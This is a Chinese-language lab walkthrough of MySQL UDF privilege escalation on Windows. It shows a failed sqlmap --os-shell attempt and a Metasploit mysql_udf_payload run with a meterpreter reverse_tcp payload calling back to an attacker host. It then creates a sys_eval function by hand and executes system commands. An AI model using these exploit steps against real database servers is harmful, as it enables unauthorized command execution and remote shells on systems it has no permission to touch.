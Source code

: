 

### 方法一、使用sqlmap提权(失败)

```
python2 sqlmap.py -d "mysql://root:root@192.168.99.100:3306/test" --os-shell
...
#选择mysql位数
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 1
#上传dll文件	
[00:52:17] [INFO] the local file 'c:\users\cheng\appdata\local\temp\sqlmap9rxqye15264\lib_mysqludf_sysn7cb6z.dll' and the remote file './libsslta.dll' have the same size (6144 B)
[00:52:17] [INFO] going to use injected sys_eval and sys_exec user-defined functions for operating system command execution
[00:52:17] [INFO] calling Windows OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] y
[00:52:32] [WARNING] (remote) (_mysql_exceptions.OperationalError) (1305, 'FUNCTION test.sys_eval does not exist')
```

在创建了os-shell后运行命令未成功，查看是dll文件没有上传到plugin目录。

### 方法二、使用metasploit提权

```
use exploit/multi/mysql/mysql_udf_payload
set RHOST 192.168.99.100
set PASSWORD root
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.99.1
exploit 
```

运行后虽然上传了udf文件，创建了sys_exec()函数，但是没有返回session。此时可以通过mysql连接手动创建sys_eval()函数。

```
#先查询上传udf文件名
mysql> select * from mysql.func where name = 'sys_exec';
+----------+-----+--------------+----------+
| name     | ret | dl           | type     |
+----------+-----+--------------+----------+
| sys_exec |   2 | QApbQCTY.dll | function |
#创建sys_eval函数
mysql> create function sys_eval returns string soname 'QApbQCTY.dll';
Query OK, 0 rows affected (0.00 sec)
#测试运行whoami
mysql> select sys_eval('whoami');
+-----------------------+
| sys_eval('whoami')    |
+-----------------------+
| win-88jdvt747gh\test|
+-----------------------+
1 row in set (0.14 sec)
```
